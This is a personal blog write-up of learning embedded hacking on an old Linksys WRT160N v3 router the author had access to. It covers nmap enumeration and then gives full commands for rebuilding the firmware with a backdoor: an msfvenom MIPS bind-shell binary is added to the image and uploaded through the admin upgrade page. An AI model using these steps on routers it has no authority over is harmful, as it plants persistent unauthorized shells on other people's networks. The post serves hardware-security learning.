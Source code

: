 ```yaml
---
layout: post
title: 'Modifying Router Firmware - Linksys WRT160N V3'
date: 2022-10-16
categories: exploitation
---
```

# Preface
There is a point in a man's (or woman's) life where he wakes up and decides he needs to learn some embedded, or hardware related cyber.
My friend had an old router collection that he found laying around, and I knew it was the right time.


# Goal
My goal is simple:
Find an RCE vulnerabillity (post auth), or somehow pop a reverse shell on the router.


# Attack Surface
## NMAP
I started with enumerating all of the open ports on the device with `nmap`.
This is the scan result:
```
Nmap scan report for 192.168.1.1
Host is up (0.034s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Tomato WAP firmware httpd (Linksys WRT160Nv3 WAP)
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=WRT160Nv3
|_http-server-header: httpd
1780/tcp  open  http    Cisco DPC3828S WiFi cable modem
10080/tcp open  amanda?
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel, cpe:/h:cisco:dpc3828s
```

After briefly researhing about each of the running services, I couldn't find anything interesting or helpful.
I decided to digg into the most attractive option - The httpd server, and the web pages it was serving to me.


## Web Server
This is the main page you get when you try to access the router:
![Main Page](https://user-images.githubusercontent.com/53023744/196054477-ca2a2870-7fa0-43ce-a4c4-577538c0d536.png)

Shortly, this is what I've tried:
* Searching for classic command injections in the ping/traceroute/etc interfaces.
	* The httpd server uses fork(), which behind the scenes calls execve().
		* How do I know that httpd uses fork()? We'll see later.
	* This means that we can't inject commands, unless we find a way to manipulate the binaries in our favor (basically a LOLBIN).
* Looking into Elon Gliksberg's [article](https://elongl.github.io/exploitation/2021/05/30/pwning-home-router.html) about a similar product - Linksys WRT54G.
	* I've found that in my router's firmware the bug via the language interface was patched.
* The comfortable way: There is a firmware upgrade interface where you can upload your own firmware.
	* If the other methods will fail, I'll go with this one.


# Firmware & Sources
I have to say, finding the right firmware was a cancerous journey.
Linksys had taken down many of the previously available firmwares from their site,
which made searching through the web a little more challenging.
Even though I tried looking into the Wayback Machine - I was stuck with the [sources](https://sourceforge.net/projects/officiallinksysfirmware/files/wrt160n/v3/) only.

At first, you might think to yourself:
"Wow! I can explore everything I want!".
Well, you'll be partially right.
Having the sources _**does**_ help.
But it doesn't always tell you to what architecture the firmware was compiled to,
and it also may not have some patches that the final firmware has.

Luckily enough, I eventually found the right firmware in some [forum](https://forum.dd-wrt.com/phpBB2/viewtopic.php?p=654578).
You can dowload it here if the site is down: [WRT160Nv3_0_03_003.zip](https://github.com/MaximAshin/MaximAshin.github.io/files/9795539/WRT160Nv3_0_03_003.zip)


## Reversing httpd - TODO!!!!!!!!!!!!!!!!!!!!!!!!!
Following the article Elon wrote, I tried to reverse the binary and search for dangerous function calls like system(), eval() etc...
Also, I tried to find mentions of nvram_get() to see if there's any unsanitized user input being used in important places.


## Let's Build a Firmware!
After spending a few hours reversing httpd, I thought to myself that I should try re-building the firmware with my own reverse-shell.
I knew this wasn't any fancy RCE exploit, but a common problem with wacky routers.
Still, I believe this is a handy trick to learn.

First, let's start by downloading the [firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit).
This kit allows us to extract the rootfs from the firmware, add/edit stuff in it, and re-build it.
The kit is **really easy to use**, and you always can reffer to the [docs](https://code.google.com/archive/p/firmware-mod-kit/wikis/Documentation.wiki).

The steps are like so:
```
./extract-firmware.sh ../WRT160Nv3_0_03_003.code1.bin

cd fmk/rootfs/

# Add/Modify stuff here
# Make sure to chmod 777 your-binaries if you upload any
cp ~/Desktop/my_binary_file bin/
chmod 777 bin/my_binary_file

./build-firmware.sh 

# Upload new firmware!
```

Now, before we build our custom binary reverse-shell,
we need to know what architecture we need to compile the binary to.
This can be checked by running `file` on a random binary from the rootfs/bin folder:
```
file rootfs/bin/busybox
Output:
fmk/rootfs/bin/busybox: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

Now let's get to the step where we build our custom reverse-shell, compiled to 32bit mipsel (mipsel == MIPS little-endian).

### msfvenom
msfvenom is a handy utility that allows us to create (common-use-case) binaries/payloads.
In my case, I searched for payloads that run on mipsel architecture.

```msfvenom -l payloads | grep mipsle```

<kbd>![image](https://user-images.githubusercontent.com/53023744/196055645-ef0680da-0e41-45f0-8bd2-2f577fc7628f.png)</kbd>


As we can see, I can create a simple bind shell (listens in a given port and waits for a connection).
We can create the binary itself like so:

```msfvenom -p linux/mipsle/shell_bind_tcp LPORT=50505 -f elf > bs_backdoor```


Also, I wanted to leave a final touch on the router's main page before we re-build the firmware, so I edited index.asp:
<kbd>![image](https://user-images.githubusercontent.com/53023744/196062658-4e7634b3-6292-4a3c-9a77-87b16b61cfb1.png)</kbd>


Now I ran the `./build-firmware.sh` command and I got a new firmware!
Let's upload it :)


# Victory
I went onto the firmware upgrade page, and uploaded the firmware:

<kbd>![image](https://user-images.githubusercontent.com/53023744/196064210-275cd403-00f7-4c76-bb00-9d7b8945b533.png)</kbd>

After a few minutes, I had a screen showing that the upgrade completed successfully!
I waited for the router to restart.

When I saw the lights on the router stopped blinking, I browsed to the main page.
As we can see, index.asp looked a little different:

<kbd>![image](https://user-images.githubusercontent.com/53023744/196062617-0f5bae8f-04d0-4d50-86ed-94cbe260061f.png)</kbd>


I quickly fired up Metasploit's listener and got a connection:

<kbd>![image](https://user-images.githubusercontent.com/53023744/196055470-b6343f0c-cf0c-4b13-a3a1-dd64ca53b435.png)</kbd>


<h1>I have a bind shell running on the router!</h1>
